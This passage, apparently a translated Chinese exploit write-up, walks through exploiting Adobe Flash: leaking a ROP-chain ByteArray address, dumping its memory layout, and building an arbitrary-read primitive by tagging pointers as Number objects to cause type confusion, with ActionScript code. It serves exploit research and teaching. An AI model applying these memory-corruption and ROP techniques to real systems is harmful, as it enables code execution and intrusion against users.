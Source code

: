 ```
Untagged    = 000 (0)
Object      = 001 (1)
String      = 010 (2)
Namespace   = 011 (3)
"undefined" = 100 (4)
Boolean     = 101 (5)
Integer     = 110 (6)
Number      = 111 (7)

```

现在可以通过执行li32(0x28)来泄露出我们构造的ROP链（ByteArray对象）的地址---|||也就是执行一个原始的读操作，来读取Vector的第一个element，然后将读取到的tagged pointer再通过“address & 0xfffffff8”这样的按位与操作untag掉。

已经得到泄露出的ROP链（ByteArray对象）的指针后，我们接下来再去读取ByteArray对象0x40偏移处存放的DWORD数据，此处的DWORD是指向一个ByteArray::Buffer对象的指针。下面是所引用ByteArray对象的内存布局：

```
$ ==> <ByteArray>   71078F10  OFFSET <Flash32_.ByteArray_vtable>
$+4                 00000002
$+8                 069CFDD0
$+C                 0697E628
$+10                06831360
$+14                00000040
$+18                71078EB8  Flash32_.71078EB8
$+1C                71078EC0  Flash32_.71078EC0
$+20                71078EB4  Flash32_.71078EB4
$+24                710BD534  Flash32_.710BD534
$+28                06603080
$+2C                06432000
$+30                0688EFB8
$+34                00000000
$+38                00000000
$+3C                7108ACC8  Flash32_.7108ACC8
$+40                0686D5D8  <pointer to ByteArray::Buffer>
$+44                00000000

```

为读到存储在ByteArray对象0x40偏移处的dword，我决定使用[Vupen的Nocolas Joly提出的一种利用技术](http://www.vupen.com/blog/20110326.Technical_Analysis_and_Win7_Exploitation_Adobe_Flash_0Day_CVE-2011-0609.php)，该技术通过修改（tagging）一个指针以使其按照Number（IEEE-754 double precision）类型来解析，从而产生一个类型混乱，该类型混乱会为我们提供一个默认基本数据类型，通过它可以读取任意地址的8字节数据。大概过程如下：

首先我们把我们将想要读取数据的地址修改为一个Number对象指针（将地址按位或上7--见上面的类型对应表），这样我们就成功地创建了一个类型混乱；然后我们通过执行si32(fake_number_object,0x2c)指令，将此指向Number对象的伪造指针存放到Vector的element[]数组中。

之后，我们读取伪造的Number对象（下方代码中的this.the_vector[1](http://i.imgur.com/9GE5qvw.png)）的值，并将其写入到一个备用ByteArray中；通过这种方法，我们想要读取的地址中的8个字节的数据就被存放到备用ByteArray中了。

```
obj = this.the_vector[1];
z = new Number(obj);

var b:ByteArray = new ByteArray();
b.endian = Endian.LITTLE_ENDIAN;
b.writeDouble(z);

/* If pointer is aligned to 8, then we read the first dword */
if ((pointer & 7) == 0){
    result = b[3]*0x1000000 + b[2]*0x10000 + b[1]*0x100 + b[0];
}
/* else we read the second dword */
else{
    result = b[7]*0x1000000 + b[6]*0x10000 + b[5]*0x100 + b[4];
}
return result;
```